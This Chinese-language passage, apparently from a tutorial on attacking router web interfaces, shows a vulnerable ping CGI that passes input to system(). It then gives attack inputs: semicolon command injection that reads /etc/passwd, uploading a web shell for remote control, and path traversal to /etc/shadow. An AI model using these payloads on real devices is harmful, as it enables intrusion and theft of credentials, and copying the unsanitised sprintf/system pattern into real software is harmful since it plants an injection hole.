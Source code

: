 假设路由器 CGI URL：

```
http://192.168.1.1/cgi-bin/ping.cgi?host=192.168.1.100
```

脚本内部可能执行：

```
char cmd[128];
sprintf(cmd, "ping -c 4 %s", host);
system(cmd);
```

**利用方法：**

```
host=192.168.1.100; cat /etc/passwd
```

构造请求：

```
http://192.168.1.1/cgi-bin/ping.cgi?host=192.168.1.100;cat%20/etc/passwd
```

如果 CGI 没有过滤分号或特殊字符，系统就会执行 `ping -c 4 192.168.1.100` **并且** 执行 `cat /etc/passwd`。

------

### (2) 文件上传或本地文件读取

很多路由器管理界面允许通过 CGI 上传配置文件或固件，如果上传模块存在漏洞：

- 可以上传恶意文件，例如 **一句话木马** 或 **Shell 脚本**。
- 访问后可获得远程控制权限。

**示例：**

```
http://192.168.1.1/cgi-bin/upload.cgi
```

上传 `shell.php` 或 `cmd.sh` 后，访问：

```
http://192.168.1.1/uploads/cmd.sh
```

即可执行命令。

------

### (3) 路径遍历

某些 CGI 脚本允许读取任意文件路径，如果没有严格限制：

```
http://192.168.1.1/cgi-bin/download.cgi?file=../../etc/shadow
```

可能直接泄露密码文件内容。

